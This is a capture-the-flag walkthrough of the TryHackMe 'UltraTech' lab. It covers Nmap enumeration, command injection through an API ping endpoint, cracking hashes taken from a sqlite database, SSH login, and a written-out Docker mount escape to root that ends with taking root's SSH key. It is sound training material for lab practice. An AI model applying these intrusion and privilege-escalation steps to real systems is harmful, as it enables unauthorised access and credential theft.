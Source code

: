 # THM - UltraTech

#### Ip: 10.10.112.141
#### Name: UltraTech
#### Rating: Medium

----------------------------------------------------------------------

![ultra.png](../assets/ultratech_assets/ultra.png)

```text


~_. UltraTech ._~

This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.

If you get stuck at some point, take some time to keep enumerating.


[ Your Mission ]

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

Start this room by hitting the "deploy" button on the right!


Good luck and more importantly, have fun!
```

Note: This room doesn't have the traditional user.txt and root.txt flags. in this CTF I will still work my way up to the root level user, but won't have any flags to show along the way. 

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ sudo nmap -p-  --min-rate 10000 10.10.112.141
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 10:15 CDT
Nmap scan report for 10.10.112.141
Host is up (0.12s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 8.17 seconds
```

We can enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ sudo nmap -sC -sV -T4 10.10.112.141 -p 21,22,8081,31331                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 10:17 CDT
Nmap scan report for 10.10.112.141
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.21 seconds
```

Becuase FTP doesn't have anonymous logins enabled, lets start by enumerating HTTP. 

Looking at the sites we find a traditional looking website, as well as what appears to be an API. 

![31331.png](../assets/ultratech_assets/31331.png)

![8081.png](../assets/ultratech_assets/8081.png)

I'm definitely interested in exploring this API a bit more. Lets kick off some directory fuzzing against it:

![dir.png](../assets/ultratech_assets/dir.png)

Ok interesting. Before diving into this lets explore port 31331 a bit too.

Looking at the robots.txt directory we find:

![robots.png](../assets/ultratech_assets/robots.png)

From there if we navigate to http://10.10.112.141:31331/utech_sitemap.txt we find a few more directories:

![sitemap.png](../assets/ultratech_assets/sitemap.png)

Back on the main site we find a page that lists some potential usernames. We can keep this in mind for later.

![users.png](../assets/ultratech_assets/users.png)

using feroxbuster to enumerate port 31331 more we find a `/js` directory:

![dir2.png](../assets/ultratech_assets/dir2.png)

And in there we find a api.js file. 

![api.png](../assets/ultratech_assets/api.png)

I'm especially interested in the `http://${getAPIURL()}/ping?ip=${window.location.hostname}` line. This seems to suggest that in `/ping` we can actually interact with the server. Lets try it:

![ping.png](../assets/ultratech_assets/ping.png)

Cool, that worked! Lets see what other commands we can run:

![ls.png](../assets/ultratech_assets/ls.png)

### Exploitation

We've got what appears to be LFI here, and the sqlite DB seems especially juicy. Lets see whats in there:

![hashes.png](../assets/ultratech_assets/hashes.png)

And just like that we have some hashes! Lets try to crack them using https://crackstation.net/:

![crack.png](../assets/ultratech_assets/crack.png)

Awesome, we can now use these credentials to SSH in as user r00t:

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ ssh r00t@10.10.112.141 

<SNIP>

r00t@ultratech-prod:~$ whoami
r00t
r00t@ultratech-prod:~$ hostname
ultratech-prod
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ cd /root
-bash: cd: /root: Permission denied
```

### Privilege Escalation

Ok, I wonder if we are in a Docker container here. We should be able to escape the docker container by running:

```text
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

That worked! We are now root on this box!

![root.png](../assets/ultratech_assets/root.png)

And we can even grab the root user's SSH key:

![id_rsa.png](../assets/ultratech_assets/id_rsa.png)

Thanks for following along!

-Ryan

----------------------------------------------------------------------------



